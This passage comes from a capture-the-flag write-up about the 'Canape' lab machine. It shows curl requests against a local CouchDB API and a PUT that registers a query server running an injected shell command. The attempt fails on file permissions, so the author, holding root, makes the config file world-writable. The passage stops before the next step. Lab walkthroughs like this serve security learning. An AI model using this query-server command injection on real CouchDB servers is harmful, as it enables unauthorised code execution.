     www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_config/query_servers/
    {"error":"not_found","reason":"Database does not exist."}



Update with the new path for 2.0:



    www-data@canape:/var/www/git$ curl 'http://0xdf:df@localhost:5984/_membership'
    {"all_nodes":["couchdb@localhost"],"cluster_nodes":["couchdb@localhost"]}

    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
    {"coffeescript":"./bin/couchjs ./share/server/main-coffee.js","javascript":"./bin/couchjs ./share/server/main.js"}



From there, we should add a query_server and then invoke it, but we
aren't able to.



    www-data@canape:/var/www/git$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
    {"error":"badmatch","reason":"{badrpc,{'EXIT',{{{badmatch,{error,eacces}},\n                  [{config_writer,save_to_file,2,\n                                  [{file,\"src/config_writer.erl\"},{line,38}]},\n                   {config,handle_call,3,[{file,\"src/config.erl\"},{line,222}]},\n                   {gen_server,try_handle_call,4,\n                               [{file,\"gen_server.erl\"},{line,629}]},\n                   {gen_server,handle_msg,5,\n                               [{file,\"gen_server.erl\"},{line,661}]},\n                   {proc_lib,init_p_do_apply,3,\n                             [{file,\"proc_lib.erl\"},{line,240}]}]},\n                 {gen_server,call,\n                             [config,\n                              {set,\"query_servers\",\"cmd\",\n                                   \"/sbin/ifconfig > /tmp/df\",true,nil}]}}}}","ref":1617834159}



Some Googling shows that this is an issue with permissions. In fact, if
we check with out root shell, we can see that the `local.ini` file is
not writable by anyone, let alone www-data:



    root@canape:/home/home/etc# ls -ls local.ini
    8 -r--r--r-- 1 homer homer 4841 Sep 14 17:11 local.ini



So that's a dead end for Canape. But if we want to try to get it
working, we can make it readable with our root or homer access, and
continue down this path. We'll make a backup of the original so we can
see what changes:



    root@canape:/# cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
    root@canape:/# chmod 666 /home/homer/etc/local.ini



Now, back to our www-data shell:


